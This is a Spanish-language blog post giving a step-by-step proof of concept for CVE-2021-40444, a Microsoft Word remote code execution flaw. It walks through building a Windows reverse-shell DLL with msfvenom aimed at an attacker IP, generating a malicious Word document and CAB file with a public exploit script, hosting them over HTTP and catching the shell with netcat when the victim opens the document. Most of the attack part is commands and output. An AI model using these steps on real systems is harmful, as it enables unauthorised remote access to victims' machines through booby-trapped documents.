 ```yaml
---
layout: single
title: POC CVE-2021-40444
excerpt: "Buenas hoy os traigo un POC del reciente exploit CVE-2021-40444, como vamos a ver podemos ejecutar comandos en sistema windows remoto a traves de la creacion de un archivo Word malicioso"
date: 2021-09-18
classes: wide
header:
  teaser: /assets/images/POC-CVE-2021-40444/logo.jpg
  teaser_home_page: true
  icon: 
categories:
  - POC CVE
  - infosec
tags:
  -   CVE
  -   Video
---
```


# POC CVE-2021-40444

Hoy voy a enseñaros paso a paso como realizar este ataque, es una vulnerabilidad que ha salido hace muy poco, y básicamente lo que vamos a explotar es un fallo en Word Office, abriendo un documento malicioso vamos a ganar acceso al sistema fácilmente, actualmente el Windows Defender lo detecta, pero seguro que os gusta.

Para ello vamos a necesitar un sistema operativo de atacante (en mi caso Kali Linux) y un sistema operativo que queremos vulnerar (Windows 10), tendréis que instalar el Word Office para que funcione.

## 1º Paso

Nos descargaremos el contenido de este repositorio: [link](https://github.com/lockedbyte/CVE-2021-40444) 

```bash
root@kali /home/kali/Desktop/POC/CVE-2021-40444 master
❯ ls
 data   out   test             exploit.py     POC.mp4     REPRODUCE.md
 img    srv   deobfuscate.py   patch_cab.py   README.md
```

## 2º Paso

Vamos a borrar el archivo creado en test → calc.dll

Este repositorio lo que explota es ejecutar un comando en el sistema, en este caso abre una calculadora en el sistema a vulnerar, pero nosotros queremos ganar acceso.

Así que vamos a construirnos nuestra propia reverse shell con `msfvenom`

```bash
root@kali /home/kali/Desktop/POC/CVE-2021-40444/test master*
❯ msfvenom -p windows/shell_reverse_tcp lhost=192.168.234.130 lport=443 -f dll > calc.dll
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of dll file: 8704 bytes
```

Le damos permisos Full 

```bash
root@kali /home/kali/Desktop/POC/CVE-2021-40444/test master*
❯ chmod 777 calc.dll
                                                                                            

root@kali /home/kali/Desktop/POC/CVE-2021-40444/test master*
❯ ls -la
drwxr-xr-x root root 4.0 KB Sat Sep 18 11:20:29 2021  .
drwxr-xr-x root root 4.0 KB Sat Sep 18 11:18:21 2021  ..
.rwxrwxrwx root root 8.5 KB Sat Sep 18 11:20:34 2021  calc.dll
```

Ejecutamos el exploit de esta forma:

```bash
❯ python3 exploit.py generate test/calc.dll http://192.168.234.130
[%] CVE-2021-40444 - MS Office Word RCE Exploit [%]
[*] Option is generate a malicious payload...

[ == Options == ]
        [ DLL Payload: test/calc.dll
        [ HTML Exploit URL: http://192.168.234.130

[*] Writing HTML Server URL...
[*] Generating malicious docx file...
  adding: [Content_Types].xml (deflated 75%)
  adding: _rels/ (stored 0%)
  adding: _rels/.rels (deflated 61%)
  adding: docProps/ (stored 0%)
  adding: docProps/app.xml (deflated 48%)
  adding: docProps/core.xml (deflated 50%)
  adding: word/ (stored 0%)
  adding: word/webSettings.xml (deflated 57%)
  adding: word/settings.xml (deflated 63%)
  adding: word/_rels/ (stored 0%)
  adding: word/_rels/document.xml.rels (deflated 75%)
  adding: word/fontTable.xml (deflated 74%)
  adding: word/styles.xml (deflated 89%)
  adding: word/document.xml (deflated 85%)
  adding: word/theme/ (stored 0%)
  adding: word/theme/theme1.xml (deflated 79%)
[*] Generating malicious CAB file...
[*] Updating information on HTML exploit...
[+] Malicious Word Document payload generated at: out/document.docx
[+] Malicious CAB file generated at: srv/word.cab
[i] You can execute now the server and then send document.docx to target
```

Ya tenemos creado nuestro documento word con nuestro codigo malicioso

## 4º Paso

Ejecutamos el exploit de nuevo de esta forma para compartirnos un servicio web con python:

```bash
❯ python3 exploit.py host 80                                   
[%] CVE-2021-40444 - MS Office Word RCE Exploit [%]
[*] Option is host HTML Exploit...
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Y tambien nos ponemos en escucha:

`rlwrap nc -nlvp 443`

```bash
root@kali /home/kali/Desktop/POC
❯ rlwrap nc -nlvp 443
listening on [any] 443 ...
```

## 5º Paso

Pasamos el documento word que se ha creado en /out

```bash
root@kali /home/kali/Desktop/POC/CVE-2021-40444/out master*
❯ ls
 0-blank   document.docx
```

[sharingfile.mp4](/assets/images/POC-CVE-2021-40444/sharingfile.mp4)

Abrimos el documento Word y BOOM! :)

[ganningaccess.mp4](/assets/images/POC-CVE-2021-40444/ganningaccess.mp4)
